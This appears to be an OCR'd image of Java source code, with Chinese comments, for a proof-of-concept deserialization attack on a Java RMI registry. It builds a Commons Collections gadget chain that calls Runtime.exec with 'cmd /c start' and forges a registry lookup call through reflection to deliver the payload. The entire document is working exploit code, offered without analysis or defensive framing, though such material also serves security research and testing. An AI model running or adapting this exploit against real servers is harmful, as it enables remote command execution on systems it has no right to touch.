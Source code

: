 ```java
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;
import java.util.HashMap;
import java.util.Map;

public class ServerAttackRegistryUnBuild {
    public static void main(String[] args) throws Exception {
        // ======================这一段就是POC1中的bind/rebuild攻击链代码======================
        String execArgs = "cmd /c start";
        final Transformer transformerChain = new ChainedTransformer(
                new Transformer[]{ new ConstantTransformer(1) });
        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{execArgs}),
                new ConstantTransformer(1) };
        Class<?> transformer = Class.forName(ChainedTransformer.class.getName());
        Field iTransformers = transformer.getDeclaredField("iTransformers");
        iTransformers.setAccessible(true);
        iTransformers.set(transformerChain, transformers);
        final Map lazyMap = LazyMap.decorate(new HashMap(), transformerChain);
        final Constructor<?> ctor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructors()[0];
        ctor.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) ctor.newInstance(Documented.class, lazyMap);
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(), new Class[]{Map.class}, handler);
        InvocationHandler invocationHandler = (InvocationHandler) ctor.newInstance(Documented.class, mapProxy);
        Registry registry = LocateRegistry.getRegistry("127.0.0.1", 1099);
        Remote r = Remote.class.cast(Proxy.newProxyInstance(
                Remote.class.getClassLoader(),
                new Class[] { Remote.class }, invocationHandler));
        // ========================从这里不一样了======================
        // 获取ref
        Field[] fields_0 = registry.getClass().getSuperclass().getSuperclass().getDeclaredFields();
        fields_0[0].setAccessible(true);
        UnicastRef ref = (UnicastRef) fields_0[0].get(registry);
        //获取operations
        Field[] fields_1 = registry.getClass().getDeclaredFields();
        fields_1[0].setAccessible(true);
        Operation[] operations = (Operation[]) fields_1[0].get(registry);
        // 伪造lookup的代码，去伪造传输信息
        RemoteCall var2 = ref.newCall((RemoteObject) registry, operations, 2, 4905912898345647071L);
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(r);
        ref.invoke(var2);
    }
```